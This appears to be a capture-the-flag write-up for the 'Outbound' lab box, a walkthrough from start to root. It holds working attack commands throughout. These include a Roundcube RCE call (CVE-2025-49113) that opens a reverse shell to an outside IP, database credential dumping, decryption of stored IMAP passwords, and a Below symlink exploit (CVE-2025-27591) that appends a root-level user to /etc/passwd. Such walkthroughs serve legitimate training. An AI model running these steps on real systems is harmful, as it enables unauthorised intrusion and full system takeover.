Outbound
Outbound was an easy-difficulty Linux box featuring a vulnerable Roundcube webmail instance and a privilege escalation through an insecure system monitoring tool. Initial access was gained by exploiting CVE-2025-49113, a PHP deserialization vulnerability in Roundcube 1.6.10, using provided credentials for tyler (LhKL1o9Nm3X2) to achieve remote code execution as www-data.
I enumerated the Roundcube MySQL database using hardcoded credentials found in config.inc.php (roundcube:RCDBPass2025) and extracted base64-encoded session data containing encrypted IMAP passwords. Using the des_key from the configuration file, I performed Triple-DES decryption with proper IV extraction to recover jacob's plaintext password (595mO8DmwGeD). While SSH authentication failed, I successfully used su to pivot to jacob's account on the existing shell.
Reading jacob's local mail revealed a password reset message from tyler containing new credentials (gY4Wr3a1evp4), which granted SSH access and the user flag. A second email from mel indicated the Below system monitoring tool had been enabled with elevated privileges.
I exploited CVE-2025-27591 in Below, which creates world-writable directories and log files at /var/log/below. After removing error_root.log and creating a symlink to /etc/passwd, I triggered Below's record function with sudo to write an error, which modified /etc/passwd permissions to 666. I then appended a malicious root-equivalent user entry with a SHA-512 password hash generated via OpenSSL (attacker:password), bypassing the need for /etc/shadow modifications, and obtained root access by switching to the newly created account.
User flag

Initial nmap scan reveals SSH on 22, and a Roundcube instance running on port 80.
CVE-2025-49113 Exploitation

This is an assumed breach scenario, which means that I already have a set of credentials to work with.
tyler | LhKL1o9Nm3X2
Logging into Roundcube with these credentials works and grants access to Tyler's mail. It is empty, though, so I'll check the Roundcube version with the about button.

Roundcube 1.6.10 is the version. I'll look around the web for vulnerabilities I could use.
https://www.offsec.com/blog/cve-2025-49113/
https://github.com/hakaioffsec/CVE-2025-49113-exploit
This vulnerability allows for RCE through a PHP object deserialization flaw triggered by improper validation of the _from parameter in program/actions/settings/upload.php
php CVE-2025-49113.php http://mail.outbound.htb tyler 'LhKL1o9Nm3X2' "bash -c 'bash -i >& /dev/tcp/10.10.16.187/9001 0>&1'"

This results in a shell as www-data
Pillaging the Roundcube DB
After landing a shell, I'll look through the var/www/ directory to see files related to the website. Oftentimes, there will be some hardcoded credentials/secrets or .env files.

In the config directory, there is a config.inc.php file, which I'll read right now.

roundcube | RCDBPass2025
The MySQL bin comes in with Roundcube, meaning I don't need to worry whether it is available or not.
mysql -u roundcube -pRCDBPass2025 -h localhost roundcube -e "use roundcube; select * from users"

There are 3 entries, with unusual-looking client hashes present.
jacob | hpLLqLwmqbyihpi7
mel | GCrPGMkZvbsnc3xv
tyler | vQ2pWN75zEK6YNcq
These didn't seem useful for now, so I left them. I continued my search of the database.
Decrypting the Roundcube session passwords
mysql -u roundcube -pRCDBPass2025 -h localhost roundcube -e "use roundcube; select * from session"

This table contains session data and base64-encoded variables. Decoding each entry from top to bottom reveals 2 sets of credentials.
jacob | Pass: L7Rv00A8TuwJAr67kITxxcSgnIk25Am/ | auth_secret: pYqv6maI9HxDL5GhcCd8JaQQW
tyler | Pass: mxjdUjfgfKYESOO1I99JKAwMDPQ77DpF | auth_secret: na4l8F3WMtmtgRxkpEmqSq27WI
The config file revealed the des_key used for encrypting the IMAP passwords of users.
<SNIP>
// This key is used to encrypt the users imap password which is stored
// in the session record. For the default cipher method it must be
// exactly 24 characters long.
// YOUR KEY MUST BE DIFFERENT THAN THE SAMPLE VALUE FOR SECURITY REASONS
$config['des_key'] = 'rcmail-!24ByteDESkey*Str';
<SNIP>
When stored in the session database or in a persistent cookie, the IMAP password is encrypted with a 3DES(DES-EDE3-CBC) algorithm. I have all the necessary pieces, so I'll perform the decryption using CyberChef.

The IV length in 3DES is 8 bytes. I'll strip off the first 8 bytes from this output.
2fb46fd3403c4eec < IV | 0902bebb9084f1c5c4a09c8936e409bf < data
For the Triple-DES Decrypt operation, I will use these values:
Triple-DES Decrypt
Key: rcmail-!24ByteDESkey*Str | UTF-8
IV: 2fb46fd3403c4eec | HEX
Mode: CBC
Input: HEX
Output: RAW

jacob | 595mO8DmwGeD
This returns a plaintext password for Jacob. I will try to SSH into the box as him.

However, this does not succeed. I still have my www-data shell, so I'll try to swap my user to jacob there.

Logging in with SSH as jacob
The only thing in Jacob's home directory is the mail directory. Inside, there are 2 mails.
From tyler@outbound.htb Sat Jun 07 14:00:58 2025
Return-Path: <tyler@outbound.htb>
X-Original-To: jacob
Delivered-To: jacob@outbound.htb
Received: by outbound.htb (Postfix, from userid 1000)
id B32C410248D; Sat, 7 Jun 2025 14:00:58 +0000 (UTC)
To: jacob@outbound.htb
Subject: Important Update
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <20250607140058.B32C410248D@outbound.htb>
Date: Sat, 7 Jun 2025 14:00:58 +0000 (UTC)
From: tyler@outbound.htb
X-IMAPbase: 1749304753 0000000002
X-UID: 1
Status: RO
X-Keywords:
Content-Length: 233
Due to the recent change of policies your password has been changed.
Please use the following credentials to log into your account: gY4Wr3a1evp4
Remember to change your password when you next log into your account.
Thanks!
Tyler
---
From mel@outbound.htb Sun Jun 08 12:09:45 2025
Return-Path: <mel@outbound.htb>
X-Original-To: jacob
Delivered-To: jacob@outbound.htb
Received: by outbound.htb (Postfix, from userid 1002)
id 1487E22C; Sun, 8 Jun 2025 12:09:45 +0000 (UTC)
To: jacob@outbound.htb
Subject: Unexpected Resource Consumption
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <20250608120945.1487E22C@outbound.htb>
Date: Sun, 8 Jun 2025 12:09:45 +0000 (UTC)
From: mel@outbound.htb
X-UID: 2
Status: O
X-Keywords:
Content-Length: 261
We have been experiencing high resource consumption on our main server.
For now we have enabled resource monitoring with Below and have granted you privileges to inspect the the logs.
Please inform us immediately if you notice any irregularities.
Thanks!
Mel
The first email contains a new password set for Jacob, so I'll try SSH again with this one.

Root flag

Jacob can run Below as root. This is a tool for recording and displaying system data.

Trying to inject an SSH key into root's authorized_keys file
Looking through the web for CVEs related to Below, I found CVE-2025-27591 after a bit of searching.
https://www.wiz.io/vulnerability-database/cve/cve-2025-27591
This vulnerability exists because the Below service creates a world-writable directory (777) at /var/log/below, meaning that anyone can write into this directory.

Additionally, Below creates a log file writable by anyone at /var/log/below/error_root.log. With these permissions, I can remove this file and create a symlink to protected files like /root/.ssh/authorized keys, and this affected file will now have 666 permissions, which will allow me to modify it.
To exploit this, I'll first remove the error_root.log file, then I will create a symlink in its place pointing to /root/.ssh/authorized keys
rm /var/log/below/error_root.log
ln -s /root/.ssh/authorized_keys /var/log/below/error_root.log
Now I just need something to make Below write into the error log. I have the following options to choose from:
Usage: below [OPTIONS] [COMMAND]
Commands:
live Display live system data (interactive) (default)
record Record local system data (daemon mode)
replay Replay historical data (interactive)
debug Debugging facilities (for development use)
dump Dump historical data into parseable text format
snapshot Create a historical snapshot file for a given time range
help Print this message or the help of the given subcommand(s)
Options:
--config <CONFIG> [default: /etc/below/below.conf]
-d, --debug
-h, --help Print help
I picked the record option first, because it looked like the fastest one to check.

This did not work, though. It could be because the authorized_keys file had special protections put in place. It for sure does exist, because I got a permission error.
Creating an arbitrary user with CVE-2025-27591
I decided to switch my approach. Instead of writing to root's files, I'll modify /etc/passwd directly by appending a new user at the end. First, I need a legitimate password to make my user valid without touching /etc/shadow. This can be done with OpenSSL from my box.
openssl passwd -6 -salt salt password

I'll craft an entry for /etc/passwd with this user hash, effectively bypassing the need for /etc/shadow. If I were to set an X instead of the hash, I would have to create an entry in /etc/shadow as well, which is not possible here due to file permissions.
echo 'attacker:$6$salt$IxDD3jeSOb5eB1CX5LBsqZFVkJdido3OUILO5Ifz5iwMuTS4XMS130MTSuDDl3aCI6WouIL9AjRbLCelDCy.g.:0:0:root:/root:/bin/bash' >> /etc/passwd
The whole attack will now look like this:
rm /var/log/below/error_root.log && ln -s /etc/passwd /var/log/below/error_root.log <- removes the log, and creates a symlink to /etc/passwd in its place
sudo /usr/bin/below record <- generates an error, which is written into the symlink and effectively changes the target file permissions to 666(writable by all users)
echo 'attacker:$6$salt$IxDD3jeSOb5eB1CX5LBsqZFVkJdido3OUILO5Ifz5iwMuTS4XMS130MTSuDDl3aCI6WouIL9AjRbLCelDCy.g.:0:0:root:/root:/bin/bash' >> /etc/passwd <- appends a malicious user with the password of 'password' and a salt of 'salt' (SHA512) to /etc/passwd
su attacker <- changes the current user to attacker

Rooted!